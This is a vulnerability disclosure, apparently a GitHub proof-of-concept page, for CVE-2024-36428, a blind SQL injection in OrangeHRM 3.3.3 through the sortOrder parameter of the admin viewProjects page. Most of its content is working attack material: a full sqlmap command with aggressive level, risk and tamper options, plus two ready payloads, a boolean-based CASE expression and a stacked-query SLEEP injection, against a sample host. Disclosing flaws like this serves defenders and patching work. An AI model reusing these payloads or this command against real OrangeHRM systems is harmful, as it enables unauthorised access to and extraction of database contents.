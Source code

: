 CVE-2024-36428


Vulnerability: Blind SQLi 

```
URL: https://$HOST/symfony/web/index.php/admin/viewProjects?sortField=customerName&sortOrder=ASC
```

Version: ‎Orangehrm OS 3.3.3

Authenticated: Yes

User: Admin (possibly others)

Vulnerable Parameter: sortOrder


Command that was used to validate (Specify the correct DB used in your instance)
```
python3 sqlmap.py -r sqli --force-ssl --level 5 --risk 3 --random-agent --tamper between,charencode --dbms mysql --ignore-redirects --technique BS --flush-session --batch --current-user --string="Found"
```


sqlmap details
```
Parameter: #1* (URI)
	Type: boolean-based blind
	Title: MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause
	Payload: https://192.168.1.28/symfony/web/index.php/admin/viewProjects?sortField=customerName&sortOrder=ASC,(SELECT (CASE WHEN (5240=5240) THEN 1 ELSE 5240*(SELECT 5240 FROM INFORMATION_SCHEMA.PLUGINS) END))

	Type: stacked queries
	Title: MySQL >= 5.0.12 stacked queries (comment)
	Payload: https://192.168.1.28/symfony/web/index.php/admin/viewProjects?sortField=customerName&sortOrder=ASC;SELECT SLEEP(5)#
```




Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/OrangeHRM_3.3.3_SQLi_via_sortOrder.gif?raw=true)
